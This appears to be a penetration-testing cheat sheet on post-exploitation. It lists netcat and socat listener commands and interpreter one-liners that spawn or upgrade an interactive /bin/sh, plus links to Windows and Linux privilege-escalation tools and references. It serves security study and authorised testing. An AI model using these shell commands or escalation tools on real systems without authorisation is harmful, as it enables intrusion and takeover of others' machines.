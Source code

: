 ```yaml
---
category: Uncategorized
tags: []
---
```

#post-exploitation
## Spawn a tty: 

1. rlwrap nc localhost 80

2. rlwrap -r -f . nc "IP ADDRESS" "PORT"

- socat file:`tty`,raw,echo=0 tcp-listen:12345
- /bin/sh -i
- /bin/bash -i
- python -c 'import pty; pty.spawn("/bin/sh")'
- perl -e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')

# Privilege Escalation Scripts:

## Windows:
- Windows Exploit Suggester (Next-Generation): https://github.com/bitsadmin/wesng
- Sherlock: https://github.com/rasta-mouse/Sherlock
- Powersploit: https://github.com/PowerShellMafia/PowerSploit
- WinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- PrivescCheck: https://github.com/itm4n/PrivescCheck 

## Linux:
- Linux Exploit Suggester 2: https://github.com/jondonas/linux-exploit-suggester-2
- LinEnum: https://github.com/rebootuser/LinEnum
- UnixPriv Checker: https://github.com/pentestmonkey/unix-privesc-check
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- Cadiclus: https://github.com/tjnull/pentest-arsenal/tree/main/Cadiclus

# Other Resources/Tools: 

## Windows: 
- LOLBAS: https://lolbas-project.github.io/#
- Windows Privilege Escalation Fundmentals: https://www.fuzzysecurity.com/tutorials/16.html
- Hacktricks: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
- SharpSuite: https://github.com/FuzzySecurity/Sharp-Suite
- PowerSharpPack:  https://github.com/S3cur3Th1sSh1t/PowerSharpPack 
- SharpCollection: https://github.com/Flangvik/SharpCollection
- Watson: https://github.com/rasta-mouse/Watson
- WinPwn: https://github.com/S3cur3Th1sSh1t/WinPwn


## Linux: 
- GTFOBins: https://gtfobins.github.io/
- g0tmi1k Linux Privilege Escalation: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- Hacktricks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation